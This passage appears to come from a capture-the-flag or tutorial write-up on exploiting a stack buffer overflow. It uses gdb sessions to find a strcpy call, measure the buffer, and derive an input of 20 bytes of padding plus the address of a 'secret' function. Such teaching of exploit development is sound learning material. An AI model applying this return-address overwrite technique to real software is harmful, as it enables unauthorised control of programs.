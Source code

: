 ```console
(gdb) disassemble main
   ...
   0x0804922a <+58>:    call   0x8049190 <public>
   0x0804922f <+63>:    xor    %eax,%eax
   ...
 End of assembler dump.
(gdb) b *0x0804922a
Breakpoint 1 at 0x804922a
(gdb) disassemble public
Dump of assembler code for function public:
   ...
   0x080491aa <+26>:    call   0x8049050 <strcpy@plt>
   0x080491af <+31>:    lea    0x804a008,%ecx
   ...
End of assembler dump.
(gdb) b *0x080491aa
Breakpoint 2 at 0x80491aa
(gdb) b *0x080491af
Breakpoint 3 at 0x80491af
```

**3. Giving a try** Here we try some injections in order to deduce the location and the size of the buffer.

```console
(gdb) r $(python -c "print('\x90'*16)")
Breakpoint 1, 0x0804922a in main ()
(gdb) i r $ebp
ebp            0xbffff2b8          0xbffff2b8
```
We know that the saved EIP will be `0x0804922f` from the first disassembly.

```console
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080491aa in public ()
(gdb) x/24wx $esp
0xbffff270:     0xbffff288      0xbffff507      0xb7fb6000      0xb7fb6000
0xbffff280:     0xbffff2b8      0xbffff507      0xbffff2e4      0xbffff2b8
0xbffff290:     0xbffff2e4      0xb7fb6000      0xbffff2b8      0x0804922f
0xbffff2a0:     0xbffff507      0x00000000      0x00000000      0x00000002
0xbffff2b0:     0xbffff354      0x00000000      0x00000000      0xb7dfd7e1
0xbffff2c0:     0x00000002      0xbffff354      0xbffff360      0xbffff2e4
```

We see on the third line (before the injection) the saved EBP and the saved EIP so we found the limit of our stack frame.

```console
(gdb) c
Continuing.

Breakpoint 3, 0x080491af in public ()
(gdb) x/24wx $esp
0xbffff270:     0xbffff288      0xbffff507      0xb7fb6000      0xb7fb6000
0xbffff280:     0xbffff2b8      0xbffff507      0x90909090      0x90909090
0xbffff290:     0x90909090      0x90909090      0xbffff200      0x0804922f
0xbffff2a0:     0xbffff507      0x00000000      0x00000000      0x00000002
0xbffff2b0:     0xbffff354      0x00000000      0x00000000      0xb7dfd7e1
0xbffff2c0:     0x00000002      0xbffff354      0xbffff360      0xbffff2e4
```
By observing the buffer right after the injection we can see that it is quite small, our guess of 16 bytes was correct since we wrote the last byte of the saved EBP.
The complete injection is thus composed by a padding of 20 bytes and the address of `secret`.
